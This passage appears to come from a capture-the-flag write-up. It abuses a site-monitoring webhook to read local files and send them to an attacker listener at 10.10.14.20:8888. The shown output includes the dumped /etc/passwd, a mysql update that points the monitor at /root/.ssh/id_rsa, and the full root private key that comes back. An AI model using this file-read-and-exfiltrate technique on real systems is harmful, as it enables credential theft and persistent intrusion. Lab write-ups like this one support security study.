 ```bash
{"webhookUrl":"http:\/\/10.10.14.20:8888\/","monitoredUrl":"\/etc\/passwd","health":"up","body":"root:x:0:0:root:\/root:\/bin\/bash\ndaemon:x:1:1:daemon:\/usr\/sbin:\/usr\/sbin\/nologin\nbin:x:2:2:bin:\/bin:\/usr\/sbin\/nologin\nsys:x:3:3:sys:\/dev:\/usr\/sbin\/nologin\nsync:x:4:65534:sync:\/bin:\/bin\/sync\ngames:x:5:60:games:\/usr\/games:\/usr\/sbin\/nologin\nman:x:6:12:man:\/var\/cache\/man:\/usr\/sbin\/nologin\nlp:x:7:7:lp:\/var\/spool\/lpd:\/usr\/sbin\/nologin\nmail:x:8:8:mail:\/var\/mail:\/usr\/sbin\/nologin\nnews:x:9:9:news:\/var\/spool\/news:\/usr\/sbin\/nologin\nuucp:x:10:10:uucp:\/var\/spool\/uucp:\/usr\/sbin\/nologin\nproxy:x:13:13:proxy:\/bin:\/usr\/sbin\/nologin\nwww-data:x:33:33:www-data:\/var\/www:\/usr\/sbin\/nologin\nbackup:x:34:34:backup:\/var\/backups:\/usr\/sbin\/nologin\nlist:x:38:38:Mailing List Manager:\/var\/list:\/usr\/sbin\/nologin\nirc:x:39:39:ircd:\/var\/run\/ircd:\/usr\/sbin\/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):\/var\/lib\/gnats:\/usr\/sbin\/nologin\nnobody:x:65534:65534:nobody:\/nonexistent:\/usr\/sbin\/nologin\nsystemd-network:x:100:102:systemd Network Management,,,:\/run\/systemd\/netif:\/usr\/sbin\/nologin\nsystemd-resolve:x:101:103:systemd Resolver,,,:\/run\/systemd\/resolve:\/usr\/sbin\/nologin\nsyslog:x:102:106::\/home\/syslog:\/usr\/sbin\/nologin\nmessagebus:x:103:107::\/nonexistent:\/usr\/sbin\/nologin\n_apt:x:104:65534::\/nonexistent:\/usr\/sbin\/nologin\nlxd:x:105:65534::\/var\/lib\/lxd\/:\/bin\/false\nuuidd:x:106:110::\/run\/uuidd:\/usr\/sbin\/nologin\ndnsmasq:x:107:65534:dnsmasq,,,:\/var\/lib\/misc:\/usr\/sbin\/nologin\nlandscape:x:108:112::\/var\/lib\/landscape:\/usr\/sbin\/nologin\npollinate:x:109:1::\/var\/cache\/pollinate:\/bin\/false\nsshd:x:110:65534::\/run\/sshd:\/usr\/sbin\/nologin\nsusanne:x:1000:1000:susanne:\/home\/susanne:\/bin\/bash\ngogs:x:1001:1001::\/home\/gogs:\/bin\/bash\nmysql:x:111:114:MySQL Server,,,:\/nonexistent:\/bin\/false\n"}
```


### Step 3
The PoC was successful, change file and for persistance purposes grab `id_rsa`.
```bash
mysql> update tasks set monitoredUrl = "/root/.ssh/id_rsa";
Query OK, 1 row affected (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```

```bash
Body:
{"webhookUrl":"http:\/\/10.10.14.20:8888\/","monitoredUrl":"\/root\/.ssh\/id_rsa","health":"up","body":"-----BEGIN RSA PRIVATE KEY-----\nMIIEowIBAAKCAQEAwddD+eMlmkBmuU77LB0LfuVNJMam9\/jG5NPqc2TfW4Nlj9gE\nKScDJTrF0vXYnIy4yUwM4\/2M31zkuVI007ukvWVRFhRYjwoEPJQUjY2s6B0ykCzq\nIMFxjreovi1DatoMASTI9Dlm85mdL+rBIjJwfp+Via7ZgoxGaFr0pr8xnNePuHH\/\nKuigjMqEn0k6C3EoiBGmEerr1BNKDBHNvdL\/XP1hN4B7egzjcV8Rphj6XRE3bhgH\n7so4Xp3Nbro7H7IwIkTvhgy61bSUIWrTdqKP3KPKxua+TqUqyWGNksmK7bYvzhh8\nW6KAhfnHTO+ppIVqzmam4qbsfisDjJgs6ZwHiQIDAQABAoIBAEQ8IOOwQCZikUae\nNPC8cLWExnkxrMkRvAIFTzy7v5yZToEqS5yo7QSIAedXP58sMkg6Czeeo55lNua9\nt3bpUP6S0c5x7xK7Ne6VOf7yZnF3BbuW8\/v\/3Jeesznu+RJ+G0ezyUGfi0wpQRoD\nC2WcV9lbF+rVsB+yfX5ytjiUiURqR8G8wRYI\/GpGyaCnyHmb6gLQg6Kj+xnxw6Dl\nhnqFXpOWB771WnW9yH7\/IU9Z41t5tMXtYwj0pscZ5+XzzhgXw1y1x\/LUyan++D+8\nefiWCNS3yeM1ehMgGW9SFE+VMVDPM6CIJXNx1YPoQBRYYT0lwqOD1UkiFwDbOVB2\n1bLlZQECgYEA9iT13rdKQ\/zMO6wuqWWB2GiQ47EqpvG8Ejm0qhcJivJbZCxV2kAj\nnVhtw6NRFZ1Gfu21kPTCUTK34iX\/p\/doSsAzWRJFqqwrf36LS56OaSoeYgSFhjn3\nsqW7LTBXGuy0vvyeiKVJsNVNhNOcTKM5LY5NJ2+mOaryB2Y3aUaSKdECgYEAyZou\nfEG0e7rm3z++bZE5YFaaaOdhSNXbwuZkP4DtQzm78Jq5ErBD+a1af2hpuCt7+d1q\n0ipOCXDSsEYL9Q2i1KqPxYopmJNvWxeaHPiuPvJA5Ea5wZV8WWhuspH3657nx8ZQ\nzkbVWX3JRDh4vdFOBGB\/ImdyamXURQ72Xhr7ODkCgYAOYn6T83Y9nup4mkln0OzT\nrti41cO+WeY50nGCdzIxkpRQuF6UEKeELITNqB+2+agDBvVTcVph0Gr6pmnYcRcB\nN1ZI4E59+O3Z15VgZ\/W+o51+8PC0tXKKWDEmJOsSQb8WYkEJj09NLEoJdyxtNiTD\nSsurgFTgjeLzF8ApQNyN4QKBgGBO854QlXP2WYyVGxekpNBNDv7GakctQwrcnU9o\n++99iTbr8zXmVtLT6cOr0bVVsKgxCnLUGuuPplbnX5b1qLAHux8XXb+xzySpJcpp\nUnRnrnBfCSZdj0X3CcrsyI8bHoblSn0AgbN6z8dzYtrrPmYA4ztAR\/xkIP\/Mog1a\nvmChAoGBAKcW+e5kDO1OekLdfvqYM5sHcA2le5KKsDzzsmboGEA4ULKjwnOXqJEU\n6dDHn+VY+LXGCv24IgDN6S78PlcB5acrg6m7OwDyPvXqGrNjvTDEY94BeC\/cQbPm\nQeA60hw935eFZvx1Fn+mTaFvYZFMRMpmERTWOBZ53GTHjSZQoS3G\n-----END RSA PRIVATE KEY-----\n"}
```
